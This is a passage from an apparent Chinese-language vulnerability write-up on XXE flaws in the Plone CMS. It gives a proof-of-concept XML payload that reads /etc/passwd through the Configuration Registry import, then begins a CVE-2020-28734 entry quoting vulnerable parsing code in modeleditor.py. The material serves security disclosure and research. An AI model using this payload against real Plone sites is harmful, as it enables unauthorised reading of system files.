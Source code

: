 此方法是此XXE的原因。 在网站设置`Site Setup`下的`Configuration Registry`中导出合适的XML文件。 在这里，选择了`plone.thumb_scale_table.xml`前缀文件。

参数 POC：

```
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE value [
<!ELEMENT value ANY >
<!ENTITY title SYSTEM "file:///etc/passwd" > 
]>
<registry>
  <records interface="Products.CMFPlone.interfaces.controlpanel.ISiteSchema" prefix="plone">
    <value key="thumb_scale_table">&title;</value>
  </records>
</registry>
```

执行后，您可以在错误报告中看到已解析的XML实体。![image-20201109142113406](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/image-20201109142113406.png)

### CVE-2020-28734

plone--xxe

`plone.app.dexterity-2.6.5-py3.6.egg\plone\app\dexterity\browser\modeleditor.py`

```
class AjaxSaveHandler(BrowserView):
    """Handle AJAX save posts.
    """

    def __call__(self):
        """Handle AJAX save post.
        """

        if not authorized(self.context, self.request):
            raise Unauthorized

        source = self.request.form.get('source')
        if source:
            # Is it valid XML?
            try:
                root = etree.fromstring(source)
            except etree.XMLSyntaxError as e:
                return json.dumps({
                    'success': False,
                    'message': 'XMLSyntaxError: {0}'.format(
                        safe_unicode(e.args[0])
                    )
                })

            # a little more sanity checking, look at first two element levels
            if root.tag != NAMESPACE + 'model':
                return json.dumps({
                    'success': False,
                    'message': _(u"Error: root tag must be 'model'")
                })
            for element in root.getchildren():
                if element.tag != NAMESPACE + 'schema':
                    return json.dumps({
                        'success': False,
                        'message': _(
                            u"Error: all model elements must be 'schema'"
                        )
                    })

```
